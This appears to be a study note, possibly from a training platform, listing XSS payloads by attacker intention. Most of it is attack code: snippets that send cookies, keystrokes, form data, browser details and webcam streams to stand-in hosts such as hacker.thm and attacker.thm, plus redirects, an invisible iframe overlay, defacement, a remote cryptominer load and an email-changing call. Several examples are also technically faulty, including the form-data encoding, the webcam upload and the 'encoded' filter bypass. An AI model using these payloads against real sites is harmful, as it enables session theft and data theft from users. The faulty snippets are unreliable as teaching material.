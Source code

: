 **What is a Payload in XSS?**

In Cross-Site Scripting (XSS), a payload refers to the JavaScript code executed on the target's computer. It consists of two parts:
1. **Intention**: What the code is intended to do.
2. **Modification**: Adjustments to the code to fit the specific scenario.

### Examples of XSS Payload Intentions:
1. **Proof of Concept**: Demonstrates XSS with simple alerts.
   ```html
   <script>alert('XSS');</script>
   ```

2. **Session Stealing**: Extracts and sends cookies to an attacker-controlled server.
   ```html
   <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
   ```

3. **Key Logger**: Logs keystrokes and forwards them to the attacker's server.
   ```html
   <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
   ```

4. **Business Logic Exploitation**: Executes specific JavaScript functions, such as changing a user’s email address.
   ```html
   <script>user.changeEmail('attacker@hacker.thm');</script>
   ```
Here are additional examples of **XSS payloads** tailored for different intentions and use cases:

---

### 1. **Redirecting the User**
Redirects the victim to an attacker-controlled site, often used for phishing or drive-by attacks.
```html
<script>window.location = 'https://attacker.thm';</script>
```

---

### 2. **Stealing Sensitive Form Data**
Intercepts and exfiltrates data entered into forms, like usernames or passwords.
```html
<script>
document.forms[0].onsubmit = function() {
  fetch('https://attacker.thm/log?data=' + btoa(new FormData(this)));
};
</script>
```

---

### 3. **Clickjacking or UI Redress**
Hides an iframe over the existing page to trick users into clicking malicious content.
```html
<script>
let iframe = document.createElement('iframe');
iframe.src = 'https://attacker.thm';
iframe.style = 'position:absolute;top:0;left:0;width:100%;height:100%;opacity:0;';
document.body.appendChild(iframe);
</script>
```

---

### 4. **Stealing Browser Details**
Exfiltrates the victim’s browser, operating system, and other environment details.
```html
<script>
fetch('https://attacker.thm/log?userAgent=' + navigator.userAgent + '&platform=' + navigator.platform);
</script>
```

---

### 5. **DOM Manipulation**
Adds a malicious link or changes the content of the page to trick users.
```html
<script>
document.body.innerHTML = '<h1>You have been hacked!</h1><a href="https://attacker.thm">Click here</a>';
</script>
```

---

### 6. **Defacing the Website**
Alters the visual content of the page, often for vandalism or scare tactics.
```html
<script>
document.body.style.background = 'red';
document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
</script>
```

---

### 7. **Injecting Hidden Fields**
Adds hidden fields to a form for unauthorized data collection.
```html
<script>
let input = document.createElement('input');
input.type = 'hidden';
input.name = 'credit_card';
input.value = '1234-5678-9101-1121';
document.forms[0].appendChild(input);
</script>
```

---

### 8. **WebSocket Hijacking**
Hijacks a WebSocket connection to send malicious commands.
```html
<script>
let socket = new WebSocket('wss://legitserver.com');
socket.onopen = function() {
  socket.send('malicious_command');
};
</script>
```

---

### 9. **Crypto Mining in the Browser**
Uses the victim’s browser resources for cryptocurrency mining.
```html
<script src="https://attacker.thm/cryptominer.js"></script>
<script>startMining();</script>
```

---

### 10. **Data Exfiltration with Image Requests**
Sends sensitive data via an image URL, which doesn’t raise suspicion in network traffic.
```html
<script>
let img = new Image();
img.src = 'https://attacker.thm/log?cookie=' + btoa(document.cookie);
</script>
```

---

### 11. **Bypassing Input Filters (HTML Entity Encoding)**
Escapes characters using encoded values to bypass filters.
```html
<script>alert('XSS');</script> 
<!-- Equivalent encoded version -->
&lt;script&gt;alert(&#39;XSS&#39;);&lt;/script&gt;
```

---

### 12. **CSS Injection**
Exploits poorly validated input to inject malicious CSS.
```html
<style>
body { background: url('https://attacker.thm/steal.png'); }
</style>
```

---

### 13. **Capturing Webcam Access**
Tries to invoke the victim’s webcam without consent (browser-dependent).
```html
<script>
navigator.mediaDevices.getUserMedia({ video: true }).then(function(stream) {
  fetch('https://attacker.thm/webcam', { body: stream, method: 'POST' });
});
</script>
```

---

These payloads demonstrate how versatile and dangerous XSS attacks can be when attackers craft malicious intentions to exploit the functionality of JavaScript on vulnerable sites.
